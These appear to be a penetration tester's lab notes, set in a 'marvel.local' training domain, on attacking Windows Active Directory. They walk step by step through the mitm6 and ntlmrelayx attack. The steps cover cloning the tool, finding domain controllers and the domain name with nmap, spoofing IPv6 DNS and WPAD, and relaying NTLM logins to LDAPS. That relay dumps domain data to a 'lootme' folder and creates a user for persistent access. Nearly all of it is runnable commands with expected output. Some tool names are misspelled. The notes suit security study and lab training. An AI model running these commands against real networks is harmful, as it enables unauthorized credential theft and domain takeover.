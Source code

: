 mitim6 (search for dirk jan m)

# mitm6:
```
mitm6 -d (domain to attack like marvel.local)
then use:
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakepad.marvel.local -l lootme
```



## IPv6: mitm6
1. install from github
```
cd /opt; git clone https://github.com/fox-it/mitm6.git; cd mitm6
```
2. get Domain Controller IP 
Domain controllers will show port 389 running the Microsoft Windows AD LDAP service:
```
nmap -p389 -sV <IP-range>           # faster but may not return results if the server is blocking pings
nmap -p389 -sV -Pn <IP-range>       # slower but more accurate
```
Expected Output:
```
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: MARVEL.local0., Site: Default-First-Site-Name)
MAC Address: CC:2F:71:3A:CE:3D (Intel Corporate)
Service Info: Host: HYDRA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
OR:
```
nmap -p 389 -T4 -A -v --script ldap-rootdse <IP-range>
```
3. get Domain name using nmap
```
nmap --script smb-enum-domains.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>
```
OR:
```
nmap --script smb-os-discovery.nse -p445 127.0.0.1
sudo nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 127.0.0.1
```

4. run mitm6
```
sudo python mitm6.py -d <domain>.local
```

5. run ntmlrelayx.py at the same time
```
ntmlrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.<domain>.local -l lootme
```
6. check on results:
all captured info will be saved to lootme folder in the directory you ran this command. when someone logs in to a computer on the network this will try to create a user and acl for persistent access. 
```
firefox ./lootme/domain_users.html
```
Always check for passwords in the description. 

